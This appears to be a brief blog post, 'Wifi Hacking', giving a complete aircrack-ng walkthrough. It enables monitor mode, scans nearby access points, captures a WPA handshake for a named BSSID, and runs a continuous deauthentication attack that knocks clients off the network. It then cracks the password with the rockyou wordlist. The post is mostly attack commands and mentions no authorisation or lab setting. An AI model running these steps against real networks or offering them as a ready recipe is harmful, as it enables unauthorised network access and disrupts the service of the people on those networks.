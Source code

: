 ```yaml
---
layout: post
title: Wifi Hacking
---
```


*Alfa-card is mandatory to search/scan for available Networks*

Steps:
**Connect alfa-card and check the Interfaces**

    ipconfig/iwconfig - This you will give the wlan0 interface

**Start Monitor Mode**

    airmon-ng start wlan0

**Verify its Monitor Mode**

    airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**

    airodump-ng wlan0mon
  
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

**After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.**

    airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

    aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

**-w to save a file** 

**Now Stop the Monitormode and brute force the captured handshake**

    airmon-ng stop wlan0mon

**Bruteforce the saved file with the wordlists to crack the password**

    aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
